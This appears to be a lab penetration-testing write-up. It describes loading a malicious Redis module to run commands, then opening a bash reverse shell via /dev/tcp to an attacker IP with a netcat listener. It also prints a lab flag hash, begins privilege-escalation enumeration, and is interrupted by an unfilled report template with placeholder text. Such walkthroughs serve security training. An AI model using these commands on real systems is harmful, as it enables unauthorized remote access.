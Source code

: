 **Redis Login**: using the `redis-cli` and load the module. 

```bash
redis-cli -h 192.168.195.93
MODULE LOAD /var/ftp/pub/module.so
system.exec "id"
```
Our upload was success and was able to load the module.so and run the `system.exe "id"` commands. Let's get a reverse shell.
### 3.2 Reverse Shell
Before running the command below we need to start a listener on the kali. `nc -lvnp 6379` 
```bash
system.exec "/bin/bash -i >& /dev/tcp/192.168.45.247/6379 0>&1"
```
![[2025-08-31_5.png]]
### 2.4 User flag: 
The `local.txt` was found under the user `pablo` which was observed on the http port 80 page at the bottom of the htmly blog. 
```bash
b121bce5024edff1ba2031af87ff6c12
```
![[2025-08-31_6.png]]

### 3.1 [Vulnerability Name]

[Explain the vulnerability you found. What is it? Why is it exploitable?]

**Exploitation Steps:**

1. Step 1 to trigger the vulnerability.
2. Step 2 to exploit it.
    
# Code or command used to exploit
```
python3 exploit.py --target $ip
```

**Proof of Concept:**  
[Show you got a shell or low-privilege access]

[https://images/4_shell.png](https://images/4_shell.png)

### 3.2 User Flag

The user flag was located at [common path or specific path].
```
[user_flag_hash]
```

## 4. Privilege Escalation

### 4.1 Enumeration Cron Jobs 
Running `linpeas.sh` discovered /etc/crontab contains a root-run entry that runs every minute.
```
linpeas.sh
```
![[2025-08-31_7.png]]
```bash
cat /etc/crontab
```
